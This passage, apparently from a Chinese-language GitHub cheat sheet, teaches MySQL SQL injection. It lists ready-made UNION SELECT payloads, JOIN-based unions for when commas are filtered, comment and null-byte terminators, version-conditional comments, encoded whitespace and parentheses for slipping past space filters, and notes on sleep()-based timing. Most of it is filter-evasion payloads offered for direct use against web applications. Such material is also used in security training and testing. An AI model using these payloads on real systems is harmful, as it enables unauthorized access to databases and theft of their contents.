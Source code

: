 
## 一、查询数据库信息
mysql 5 联合查询；mysql 4 不支持联合查询。  

我们平时在注入中使用UNION查询一般都采用数字匹配字段的方式以达到select_expression的适用条件（即UNION后面查选的字段数量、字段数据类型都应该与最前面SELECT的一样），这是因为数字役属于几乎所有数据类型，因此可以匹配任何字段，HEX编码方式同样役属于几乎所有数据类型。  

可以使用很多单双引号，只要是成对出现的。  
``` 
SELECT * FROM Articles WHERE id = '1''';
SELECT 1 FROM dual WHERE 1 = '1'''''''''''''UNION SELECT '2';
```
union select 不能用逗号时，可以用join执行联合查询，即先join 成一个大表，再select 这个大表   
`and+1=2+union+SELECT+*+FROM+(select+version())+as+a+join+(select+22)+as+b+join+(select+33)+as+c%23`  


下面的符号可以用来注释语句：  
&#35; Hash 语法（注意浏览器访问时需要编码成%23，否则被当作锚点起始）  
/*  C-style 语法  
-- - SQL 语法  
--+ Mysql语法  
;%00 空字节  
` 反引号  

Mysql中，`/*! SQL 语句 */` 这种格式里面的 SQL 语句会当正常的语句一样被解析。  
如果在!之后是一串数字(这串数字就是 mysql 数据库的版本号)， 如：`/*! 12345 SQL 语句 */`  
当版本号大于等于该数字，SQL 语句则执行，否则就不执行。  
`UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+`  
`SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);`  

允许的字符:  
09 Horizontal Tab  
0A New Line  
0B Vertical Tab  
0C New Page  
0D Carriage Return  
A0 Non-breaking Space  
20 Space  
例子：`'and%0A%09UNION%0CSELECT%A0NULL%20%23`  

括号也可以用来绕过过滤空格的情况：  
28 (  
29 )  
例子：`UNION(SELECT(column)FROM(table))`  

AND或OR后面可以跟的字符:  
20 Space  
2B +  
2D -  
7E ~  
21 !  
40 @  
例子：`SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))`  
dual 是一个虚拟表，可以用来做测试。  
注意：  
where a_exp or b_exp 中如果 a_exp is true 是不会计算 b_exp 的，如果 a_exp is false，那 b_exp 执行且执行的次数跟表的条目有关，即如果 b_exp 是 sleep(2)，而表有3个条目，将睡眠6s 后返回。    
where a_exp and b_exp 中如果 a_exp is false 是不会计算 b_exp 的，如果 a_exp is true，那 b_exp 执行且执行的次数跟表的条目有关，即如果 b_exp 是 sleep(2)，而表有3个条目，将睡眠6s 后返回。     
